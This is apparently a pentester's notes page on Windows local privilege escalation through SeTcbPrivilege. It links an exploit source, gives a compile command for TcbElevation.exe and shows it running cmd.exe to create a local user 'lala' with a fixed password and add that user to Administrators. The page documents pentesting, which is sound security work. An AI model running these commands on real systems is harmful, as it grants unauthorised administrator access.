

repository: amandaguglieri/hackinglife · page: setcbprivilege/index.html · generator: mkdocs

---
title: SeTcbPrivilege
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - windows
  - privilege
  - SeBackupPrivilege
---
# SeTcbPrivilege

Resources: https://adminions.ca/books/windows-attacks-and-enumerations/page/windows-local-privilege-escalation


## TcbElevation.cpp

Original source: https://gist.github.com/antonioCoco/19563adef860614b56d010d92e67d178

My refined version ( Visual Studio 2022): 


```powershell
cl /nologo /EHsc /FeTcbElevation.exe .\TcbElevate.cpp /DUNICODE /D_UNICODE /link Advapi32.lib ntdll.lib
```

The tester executed 'TcbElevation.exe' to create a new local user lala with password 'lala123' and add it to the Administrators group:

```powershell
.\TcbElevation.exe nonexistentservice "C:\Windows\System32\cmd.exe /c net user lala lala123 /add && net localgroup administrators lala /add"
```
